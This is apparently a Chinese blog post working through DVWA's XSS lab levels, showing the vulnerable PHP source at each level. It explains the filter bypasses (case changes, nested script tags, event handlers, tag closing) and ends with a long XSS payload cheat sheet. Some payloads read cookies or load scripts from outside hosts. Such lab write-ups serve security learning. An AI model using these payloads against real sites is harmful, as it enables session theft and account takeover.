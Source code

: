 ```yaml
---
title: DVWA之XSS
date: 2019-3-18
tags: DVWA
categories: DVWA

---
```



- 跨站脚本攻击-XSS,全称Cross site scripting，特殊的注入攻击，相当于在代码中注入恶意的脚本，当用户访问页面时，在浏览器中触发并解析代码，完成攻击。xss根据不同的攻击形式分为反射型xss、存储型xss、Dom型Xss。

- 1.反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。

- 2.存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie（虽然还有种DOM型XSS，但是也还是包括在存储型XSS内）。

- 3.DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。

_具体内容可以看`https://www.zhihu.com/question/26628342`个人觉得说的还不错_



### 反射型xss

- low 

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
``` 

_显然没有做任何的防护措施_

**攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```
**显然低等级的对以上注入方法都是可以做到的**

- medium

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**我们可以看到中等级过滤了<script>,这时我能想到的有两种解决办法：**

1.大小写替换，诸如<SCRiPt>之类的

2.写两次：<scr<script>ipt>替换

—除了含有script的需要注意一下，其他注入方法可以正常执行—

- high

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**这里是用正则表达式做替换，使用通配符，对script相关的替换掉，但对事件型的构造语句没有进行过滤,如：**

```
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- impossible 

```
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>"; 
```

**严格，加了token，htmlspecialchars（）可对输入参数进行实体转义，输入的<,>等都是会当做实体字符输出,目前并没有想到绕过的办法**

### 存储型XSS

**首先先列出几种攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- low 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    //mysql_close();
}

```

**显然没有经过防护所有的攻击手段都是可行的**

- medium 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
} 
```

**这里message的防住入做的很棒：**

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串
htmlspecialchars() 函数把预定义的字符转换为 HTML 实体

当然，虽然message不太好搞，但是name的防护措施只做了一个str_replace( '<script>', '', $name )，根据反射型xss的经验，可以对script进行大小写和双写的绕过。虽然name是有长度限制的，但只要我们再进行一下抓包改包发包即可完成，具体过程不再赘述。

- high

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```
**有了medium处的教训，这里不再把精力浪费在message上。对于name处的注入可参照反射型xss的high等级。**

### Dom型XSS

- Low 

```
<?php

# No protections, anything goes

?> 
```

**对于低等级，没有任何防护措施，我们选择直接xss**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=<script>alert('xss')</script>`

- medium

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

**可以看到这里只要一出现'<script'就会自动替换成默认值：‘English’，并且是区分大小写的。所以这里换一种方法，使用不含<script>的注入方式**

**如果直接用<img src=1 onerror=alert('xss')>不会出现，这里可以通过查看源代码闭合标签从而达到我们想要的效果**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=></option></select><img src=1 onerror=alert('xss')>`

### XSS注入常用语句

```
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<script>alert('XSS')</script>
<img src="javascript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script>
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"("XSS")>
<IMG SRC="jav	ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
